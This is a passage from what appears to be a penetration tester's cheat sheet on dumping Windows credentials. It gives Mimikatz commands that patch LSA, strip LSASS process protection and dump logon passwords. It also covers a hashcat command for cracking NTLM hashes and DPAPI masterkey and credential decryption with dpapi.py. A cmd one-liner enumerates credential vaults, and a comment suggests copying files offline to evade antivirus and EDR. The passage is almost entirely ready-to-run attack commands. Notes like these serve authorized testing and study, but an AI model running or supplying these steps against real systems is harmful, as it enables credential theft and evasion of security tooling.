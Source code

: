 ```bash
lsadump::lsa /patch
# OTHER TOOLS
pwdump
fgdump
Windows Credential Editor (wce)
# CRACK THOSE HASHES
hashcat -m 1000 <hash> rockyou.txt
```
{% endcode %}

### Bypass LSA Protection (Protected Process Light enabled)

```
# On Mimikatz
!+
!processprotect /process:lsass.exe /remove
sekurlsa::logonpasswords
```

### DPAPI

<pre class="language-bash" data-overflow="wrap" data-full-width="true"><code class="lang-bash">https://tools.thehacker.recipes/mimikatz/modules/dpapi/masterkey
https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#retrieving-masterkey-with-users-password
<strong>
</strong># Check for credentials C:\Users\$User\AppData\Roaming\Microsoft\Credentials even for hidden files
# If there are credentials, look for masterkeys AppData\Roaming\Microsoft\Protect\[sid]
# First, decrypt the masterkey
dpapi.py masterkey -file $MASTERKEY_FILE -sid S-1-5-21-...-1115 -password $pwd
...
key with User Key (MD4 protected)
Decrypted key: 0x55d51b...989f
# Then use that key to decrypt the credential
dpapi.py credential -file $CREDENTIAL_FILE -key 0x55d51b...989f
# If you have several masterkeys, try all
<strong>
</strong><strong># Identify available credential files and masterkeys (replace user) 
</strong>cmd​ /c "​dir​ /S /AS C:\Users\security\AppData\Local\Microsoft\Vault &#x26; ​dir​ /S /AS C:\Users\security\AppData\Local\Microsoft\Credentials &#x26; ​dir​ /S /AS C:\Users\security\AppData\Local\Microsoft\Protect &#x26; ​dir​ /S /AS C:\Users\security\AppData\Roaming\Microsoft\Vault &#x26; ​dir​ /S /AS C:\Users\security\AppData\Roaming\Microsoft\Credentials &#x26; ​dir​ /S /AS C:\Users\security\AppData\Roaming\Microsoft\Protect"
<strong>
</strong>
# MIMIKATZ -> If we hit AV/EDR, download files and use them offline w/ Mimikatz on our Win VM
# WE FIRST EXTRACT THE guidMasterKey (/in: is uppercase inside)
mimikatz # dpapi::cred /in:D7...F1
**BLOB**
  dwVersion          : 00000001 - 1

[192.168.50.73]: PS C:\Users\jen\Documents> whoami 